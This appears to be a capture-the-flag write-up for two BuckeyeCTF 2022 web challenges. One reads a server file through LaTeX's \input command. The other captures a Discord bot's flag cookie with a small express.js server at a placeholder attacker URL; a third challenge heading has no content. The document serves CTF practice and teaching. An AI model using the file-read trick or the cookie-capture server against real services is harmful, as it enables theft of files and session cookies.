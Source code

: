 # Web challenges
## Table of contents
- [textual (214 solves)](./web.md#textual)
- [owl (153 solves)](./web.md#owl)
- [quizbot (69 solves)](./web.md#quizbot)

### textual

```
I made a LaTeX to HTML converter. Why? Because I believe in more than WYSIWYG. Don't worry though, it's totally safe!

https://textual.chall.pwnoh.io
```
**Attachements :**
- [textual.zip](https://github.com/cscosu/buckeyectf-2022-public/tree/master/web/textual/deploy) (with a fake flag in `flag.tex`)

#### Solution
We first click on the link provided, to discover the website.<br>
![img.png](img/textual_firstGet.png)
Ok, so it is a compiler of LaTeX. We can run it by doing `CTRL+S`
![img_1.png](img/textual_firstTest.png)
Pretty cool. Now, what about the attached file ?<br>
We can unzip the textual.zip file. It contains all of the source code of the website. We can also observe that there is a `flag.tex` in the app's root.<br>
We can think that we want to read the `flag.tex` thanks to the latex compiler.<br>
A quick research on Internet leads us to `\input{filename}` function.<br>
We know the flag location thanks to the Dockerfile :
```dockerfile
...
WORKDIR /home/ctf/app
COPY package* ./
RUN npm i
RUN cp /bin/sh /bin/sh-orig
COPY . ./
...
```
So we know that the `flag.tex` is under `/home/ctf/app/flag.tex`<br>
So we try to `\input` :
![img_2.png](img/textual_flag.png)
Here's the flag !
<br><br><br><hr>

### owl
```md
This bird never goes ANYWHERE without its flag, but is your site hootin' enough? `owl#9960`
```
**Attachements :**
- [index.js](https://github.com/cscosu/buckeyectf-2022-public/blob/master/web/owl/index.js)

#### Solution
We can see in the challenge description that owl is a Discord bot. After a fast check, we can see that owl is on the official server of the CTF. Well, we know it's here. But now let's see `index.js`, that is surely the bot's source code.<br>
We open index.js, and we see that it is indeed the bot's source code. So, what does the bot ?<br>
First, we check what we can do as a user. We can see that the bot checks out when a user sends a message. Well, that's the only thing we can trigger, so let's dive into this function (line 61 to 78)<br>
We can only send message in DMs otherwise the bot won't read it. It seems like this :
```js
let url = /https?:\/\/(www\.)?([-a-zA-Z0-9@:%._\+~#=]{1,256}\.[a-zA-Z0-9()]{1,6}\b)([-a-zA-Z0-9()@:%_\+.~#?&//=]*)/i
let match = msg.content.match(url);
```
checks if our message is an url. But what the bot actually does with this URL ?<br>
It calls the `scout` function. So let's dive into it.<br>
The bot will only do something if the url contains the word `owl` :
```js
if(!url.includes("owl")) {
    resolve("hoot... hoot hoot?");
    return;
}
```
Then it sets a cookie containing the flag and visits the webpage.
```js
browser.setCookie({
    name: "flag",
    domain: host,
    value: process.env.FLAG
});

browser.fetch(url).then(r => {
    return r.text();
})
```
The rest of the function doesn't bother us much, because we just have found the solution.<br>
In fact, if the bot goes to a URL with a cookie containing the flag, we have to set up a little HTTP server (with express.js for example) and get the flag when the bot visits our URL !<br>
So, let's setup an express.js server.<br>
```shell
npm init && touch index.js && npm i express && npm i cookie-parser
```
This little shell command will setup everything we need to setup the server. We now just have to write the code to retrieve the flag cookie.<br>
And here is the code in `index.js` :
```js
const express = require("express");
const cookieParser = require("cookie-parser")
const app = express();
const port = 8081; //Port of the webserver
app.use(cookieParser());

// sets up a get on /owl to have owl in the URL
app.get("/owl", async (req, res, next) => { 
    console.log(req.cookies); //works thanks to cookie-parser library to have cookies shown in a json
    res.send("OK");
});

// launch the webserver on the previously defined port
app.listen(port, () => {
    console.log(`app launched on port ${port}`);
});
```
A little `node index.js` will launch our webserver.<br>
Now, we just have to DM the bot with our url :<br>
`http://MACHINE_IP:PORT/owl`<br>
All we need to do now is to check our console !
![img.png](img/owl_flag.png)

### quizbot

